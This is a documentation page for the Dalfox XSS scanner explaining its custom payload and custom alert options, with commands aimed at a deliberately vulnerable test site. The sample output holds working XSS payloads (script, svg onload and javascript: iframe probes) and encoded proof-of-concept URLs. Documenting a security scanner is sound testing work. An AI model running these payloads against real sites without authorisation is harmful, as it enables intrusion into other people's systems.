 ```yaml
---
title: Custom Payload and Custom Alert
redirect_from: /docs/custom-payload/
nav_order: 1
parent: Features
toc: true
layout: page
---
```


# Custom Payload and Custom Alert

This guide provides detailed instructions on how to use custom payloads and custom alerts with Dalfox. These features allow you to customize the payloads and alerts used during XSS scanning.

## Custom Payload

You can specify a custom payload file using the `--custom-payload` option. This file should contain a list of payloads to be used during the scan.

### Command

```bash
dalfox url --custom-payload payload-list.txt
```

## Custom Alert

You can customize the alert value and type used in the payloads with the `--custom-alert-value` and `--custom-alert-type` options.

### Options

- **`--custom-alert-value`**: The value to use in the alert (e.g., `XSS`, `1`, `document.location`).
- **`--custom-alert-type`**: The type of the alert value (e.g., `str`, `none`).

#### Alert Types

- **none or empty**: Use the alert value directly (e.g., `--custom-alert-value=130`, `--custom-alert-value=location.href`).
- **str**: Wrap the alert value in quotes (e.g., `"PAYLOAD"`, `'PAYLOAD'`).

### Examples

#### Default (No Options)

```bash
dalfox url http://testphp.vulnweb.com/listproducts.php?artist=123
```

Output:

```
[V] Triggered XSS Payload (found DOM Object): cat=</ScriPt><sCripT class=dalfox>alert(1)</sCriPt>
    48 line:  syntax to use near '=</ScriPt><sCripT class=dalfox>alert(1)</sCriPt>' at line 1
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%3C%2FScriPt%3E%3CsCripT+class%3Ddalfox%3Ealert%281%29%3C%2FsCriPt%3E
```

#### Custom Alert Value

```bash
dalfox url http://testphp.vulnweb.com/listproducts.php?artist=123 --custom-alert-value 1337
```

Output:

```
[V] Triggered XSS Payload (found DOM Object): cat='><sVg/onload=alert(1337) class=dalfox>
    48 line:  syntax to use near ''><sVg/onload=alert(1337) class=dalfox>' at line 1
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%27%3E%3CsVg%2Fonload%3Dalert%281337%29+class%3Ddalfox%3E
```

#### Custom Alert Value with Type `str`

```bash
dalfox url http://testphp.vulnweb.com/listproducts.php?artist=123 --custom-alert-value 1337 --custom-alert-type str
```

Output:

```
[V] Triggered XSS Payload (found DOM Object): cat=<svG/onload=confirm("1337") class=dalfox>
    48 line:  syntax to use near '=<svG/onload=confirm("1337") class=dalfox>' at line 1
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%3CsvG%2Fonload%3Dconfirm%28%221337%22%29+class%3Ddalfox%3E
```

#### Custom Alert Value with Multiple Types

```bash
dalfox url http://testphp.vulnweb.com/listproducts.php?artist=123 --custom-alert-value 1337 --custom-alert-type str,int
```

Output:

```
[V] Triggered XSS Payload (found DOM Object): cat="><iFrAme/src=jaVascRipt:alert('1337') class=dalfox></iFramE>
    48 line:  syntax to use near '"><iFrAme/src=jaVascRipt:alert('1337') class=dalfox></iFramE
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%22%3E%3CiFrAme%2Fsrc%3DjaVascRipt%3Aalert%28%271337%27%29+class%3Ddalfox%3E%3C%2FiFramE%3E
```
